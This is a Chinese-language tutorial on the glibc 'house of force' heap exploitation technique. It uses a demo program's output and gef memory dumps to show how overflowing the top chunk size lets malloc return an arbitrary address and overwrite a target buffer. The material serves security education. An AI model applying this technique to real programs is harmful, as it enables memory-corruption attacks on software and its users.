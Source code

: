```

Let's allocate the first chunk of 0x10 bytes: 0x824010.
Real size of our allocated chunk is 0x18.

Overwriting the top chunk size with a big value so the malloc will never call mmap.
Old size of top chunk: 0x20fe1
New size of top chunk: 0xffffffffffffffff

The value we want to write to at 0x601080, and the top chunk is at 0x824028, so accounting for the header size, we will malloc 0xffffffffffddd048 bytes.
As expected, the new pointer is at the same place as the old top chunk: 0x824030
malloc(0x30) => 0x601080!

Now, the next chunk we overwrite will point at our target buffer, so we can overwrite the value.
old string: This is a string that we want to overwrite.
new string: YEAH!!!
```
house_of\_force 是一种通过改写 top chunk 来欺骗 malloc 返回任意地址的技术。我们知道在空闲内存的最高处，必然存在一块空闲的 chunk，即 top chunk，当 bins 和 fast bins 都不能满足分配需要的时候，malloc 会从 top chunk 中分出一块内存给用户。所以 top chunk 的大小会随着分配和回收不停地变化。这种攻击假设有一个溢出漏洞，可以改写 top chunk 的头部，然后将其改为一个非常大的值，以确保所有的 malloc 将使用 top chunk 分配，而不会调用 mmap。

首先随意分配一个 chunk，此时内存里存在两个 chunk，即 chunk 1 和 top chunk：
```
gef➤  x/8gx 0x602010-0x10
0x602000:	0x0000000000000000	0x0000000000000021  <-- chunk 1
0x602010:	0x4141414141414141	0x4141414141414141
0x602020:	0x4141414141414141	0x0000000000020fe1  <-- top chunk
0x602030:	0x0000000000000000	0x0000000000000000
```
chunk 1 真实可用的内存有 0x18 字节。

假设 chunk 1 存在溢出，利用该漏洞我们现在将 top chunk 的 size 值改为一个非常大的数：
```
gef➤  x/8gx 0x602010-0x10
0x602000:	0x0000000000000000	0x0000000000000021  <-- chunk 1
0x602010:	0x4141414141414141	0x4141414141414141
0x602020:	0x4141414141414141	0xffffffffffffffff  <-- modified top chunk
0x602030:	0x0000000000000000	0x0000000000000000
```
改写之后的 size==0xffffffff。

现在我们可以 malloc 一个任意大小的内存而不用调用 mmap 了。接下来 malloc 一个 chunk，使得该 chunk 刚好分配到我们想要控制的那块区域为止，这样在下一次 malloc 时，就可以返回到我们想要控制的区域了。计算方法是用目标地址减去 top chunk 地址，再减去 chunk 头的大小。
```
gef➤  x/8gx 0x602010-0x10
0x602000:	0x0000000000000000	0x0000000000000021
0x602010:	0x4141414141414141	0x4141414141414141
0x602020:	0x4141414141414141	0xfffffffffffff051
0x602030:	0x0000000000000000	0x0000000000000000
gef➤  x/12gx 0x602010+0xfffffffffffff050
0x601060:	0x4141414141414141	0x4141414141414141
0x601070:	0x4141414141414141	0x0000000000000fa9  <-- top chunk
0x601080 <bss_var>:	0x2073692073696854	0x676e697274732061  <-- target
0x601090 <bss_var+16>:	0x6577207461687420	0x6f7420746e617720
0x6010a0 <bss_var+32>:	0x6972777265766f20	0x00000000002e6574
0x6010b0:	0x0000000000000000	0x0000000000000000
```
